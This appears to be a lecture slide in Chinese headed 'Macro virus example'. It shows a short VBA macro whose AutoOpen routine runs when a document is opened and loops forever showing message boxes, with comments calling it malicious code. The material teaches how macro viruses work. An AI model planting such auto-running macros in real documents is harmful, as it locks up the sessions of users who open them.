

# 宏病毒示例
Sub AutoOpen()    ’定义函数名，AutoXXX为自动宏
While True              ’恶意代码 ，死循环
Msgbox ”Hello   world”   ’调用对话框显示消息
Wend
End Sub                   ’函数到此结束